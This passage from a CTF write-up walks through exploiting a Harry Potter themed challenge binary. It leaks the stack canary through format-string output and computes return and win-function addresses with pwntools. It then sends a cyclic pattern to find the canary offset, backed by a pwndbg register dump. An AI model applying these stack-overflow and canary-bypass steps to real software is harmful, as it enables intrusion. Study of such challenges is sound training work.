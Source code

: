 ```
```

Before the xor we got rax = `0x2d4d84e5d9bedcd2`, afterwards we got rax = `0x1d2`
So the correct cookie is:
```
>>> hex(0x2d4d84e5d9bedcd2 ^  0x1d2)
'0x2d4d84e5d9bedd00'
```

We can now search our dumped values for the cookie. It is the 39th leak, this was
the leaked return value from last time, so we have to ajust the code of our
script to account for that. The address we leaked last time is now the 41th leak,
so we also need to change that. We also have to alter the offsets for the ret and
the win addresses.

```python
...
leaks = p.readline().decode("utf-8").split("|") # read the leaked values

print(leaks)

cookie =    int(leaks[38],16) # get the stack cookie
leak_addr = int(leaks[40],16) # get the leaked return address

ret = leak_addr - 0x38 # calculate the address of an ret instruction

win = leak_addr - 0x231 # calculate the address of WINgardium_leviosa

...
```
The only question now is where to put in the cookie. But we can figure that out, by simply using the cyclic function of pwntools.

```python
...
win = leak_addr - 0x231 # calculate the address of WINgardium_leviosa

input()

p.sendline(b"Expelliarmus\0" + cyclic(400))

p.interactive()
...
```


```
Breakpoint 1, 0x000055c130413d64 in AAAAAAAA ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────
 RAX  0x61616f6361616e63 ('cnaacoaa')
 RBX  0x55c130413de0 (__libc_csu_init) ◂— push   r15
 RCX  0x7f54053e5567 (write+23) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x7f54054b7320 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x7f54054b5583 (_IO_2_1_stdout_+131) ◂— 0x4b7320000000000a /* '\n' */
 R8   0xb
 R9   0x0
 R10  0x7f5405480357 ◂— 0x667600296c696e28 /* '(nil)' */
 R11  0x246
 R12  0x55c130413930 (_start) ◂— xor    ebp, ebp
 R13  0x7ffe9621c6f0 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7ffe9621c5e0 ◂— 'cpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad'
 RSP  0x7ffe9621c4d0 ◂— 'Expelliarmus'
```
